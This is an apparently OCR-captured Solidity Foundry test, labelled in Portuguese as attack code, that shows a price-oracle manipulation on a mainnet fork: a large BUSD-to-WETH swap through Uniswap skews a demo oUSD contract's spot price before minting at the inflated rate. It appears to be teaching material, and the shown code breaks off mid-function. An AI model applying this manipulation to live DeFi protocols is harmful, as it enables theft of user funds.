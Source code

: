 Código do ataque:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // Fork de um bloco específico
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // Ataque ao oráculo
        // 0. Preço do ETH antes da manipulação
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // Adquirir 1000000 BUSD para a própria conta
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. Comprar BUSD para WETH e manipular o oráculo
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. Preço do ETH após a manipulação
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. Criar oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18); 
    }

    // Swap BUSD por WETH
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {   
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
```